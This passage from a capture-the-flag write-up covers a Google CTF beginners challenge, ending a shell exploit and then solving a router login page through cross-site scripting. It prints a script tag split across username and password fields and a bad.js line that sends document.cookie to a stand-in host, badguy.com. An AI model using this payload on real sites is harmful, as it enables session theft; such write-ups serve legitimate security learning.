 For the exploit to work, we've to supply printable ASCII characters onto the limited shell—the return address `0x41414227` is `'BAA` in little-endian ASCII.

{% include image.html image_alt="shell" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/09550697.png" %}

We got shell!

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/df6171df.png" %}

The flag is `CTF{c0d3ExEc?W411_pL4y3d}`.

### Router-UI

There’s no attachment in this challenge. Instead, we are to follow the link.

{% include image.html image_alt="Router-UI" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/23a995c1.png" %}

Looking at the instructions, it appears this challenge has something to do with enticing Wintermuted to click on a link; stealing session token through XSS; and bypassing the Chrome XSS Auditor. This is how `https://router-ui.web.ctfcompetition.com/` looks like.

{% include image.html image_alt="web-router-ui" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/95492525.png" %}

Anyhow, let's go with (`admin:password`) and see what happens.

{% include image.html image_alt="admin:password" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/591c4eee.png" %}

Hmm. Wrong credentials but interesting output. Notice that a double slash ("//") separates the username and password? When was the last time you see a double slash ("//")? If the answer is "URL", you are right!

{% include image.html image_alt="RFC3986" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/c1309d25.png" %}

This is what RFC 3986: Uniform Resource Identifier (URI) has to [say](https://tools.ietf.org/html/rfc3986#page-17).

Guess what happens when we put `<script src="https:` into the username value and `www.badguy.com/bad.js"></script>` into the password value?

```
Wrong credentials: <script src="https://www.badguy.com/bad.js"></script>
```

The page at `https://router-ui.web.ctfcompetition.com` responds with the wrong credentials notification, and a `<script>` tag that loads bad JS from the `www.badguy.com` domain.

The file `bad.js` can be simple as this to steal the session cookies registered with `router-ui.web.ctfcompetition.com`.

<div class="filename"><span>bad.js</span></div>
```js
document.location = 'http://www.badguy.com/flag.png?' + document.cookie;
```
